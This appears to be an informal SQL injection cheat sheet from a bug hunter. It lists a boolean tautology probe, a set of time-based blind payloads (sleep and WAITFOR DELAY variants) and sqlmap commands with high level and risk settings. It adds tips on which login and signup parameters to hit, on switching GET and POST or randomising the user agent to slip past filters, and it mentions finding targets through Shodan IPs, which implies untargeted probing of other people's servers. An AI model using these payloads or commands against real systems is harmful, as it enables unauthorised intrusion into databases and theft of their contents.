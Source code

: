 One of the best ways to confirm a SQL injection is by making it operate a logical operation and having the expected results.

For example: if the GET parameter ?username=Peter returns the same content as ?username=Peter' or '1'='1 then, you found a SQL injection.


```
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
```


sqlmap -r request.txt -p parameter-name --force-ssl --level 5 --risk 3  --dbs --hostname --current-user

90% from my finds in SQL injection as
 [POST Request] 
1 Login page in username parameter 
2 Forget password page username parameter
3 Singup Page firstname and last name parameter

' WAITFOR DELAY '0:0:5'--
';WAITFOR DELAY '0:0:5'-- 
===>Comment

If sometimes you cant exploits  
change request form POST to GET 
if the same with the url injection try change request form GET to POST



most modern web apps use WAF & user input validation before execute it.
yeh 
you can try with 
--random-agent 
but i dont remember that i use tempers 

or maby because lot of these sql i found it from shodan ips




all the time i try Sql  in user parameter 
1)
i used sleep payload
';WAITFOR DELAY '0:0:5'-- 
and the server get DELAY for 5 s
2)
save Post request in txt
sqlmap -r txt -p user --force-ssl --level 5 --risk 3
